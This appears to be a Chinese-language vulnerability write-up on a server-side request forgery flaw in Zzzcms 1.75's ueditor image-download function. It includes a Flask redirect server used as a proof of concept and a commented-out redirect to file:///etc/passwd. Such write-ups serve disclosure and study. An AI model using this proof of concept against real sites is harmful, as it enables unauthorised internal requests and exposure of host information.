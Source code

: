 ```yaml
---
title: "Zzzcms 1.75 ssrf"
id: zhfly3320
---
```


# Zzzcms 1.75 ssrf

## 一、漏洞简介

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

### 漏洞分析

功能实现在

```
plugins/ueditor/php/controller.php 
```

![image](../img/551f5a294f14208f5a4e5d6dd06bbd0f.png)

传入的post参数进入safe_url函数进行处理，然后传入down_url函数。这里safe_url函数作用不大，主要是在down_url中的逻辑。

在down_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![image](../img/828375d33ae30bc5ac9a9b33b1a5d812.png)

最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file_ext函数传入`http://XXXX/x.php?x.jpg`得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：

```
from flask import Flask,redirect,request
app = Flask(__name__)
@app.route('/1.txt')
def index(page_name=''):
    #return redirect('file:///etc/passwd', code=301) #not work
    return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9000, debug=app.debug) 
```

![image](../img/d3376de66d04c143da5df304c350afb9.png)

![image](../img/eedb71189c8c33917398cf26caa1e29d.png)

## 参考链接

> https://xz.aliyun.com/t/7414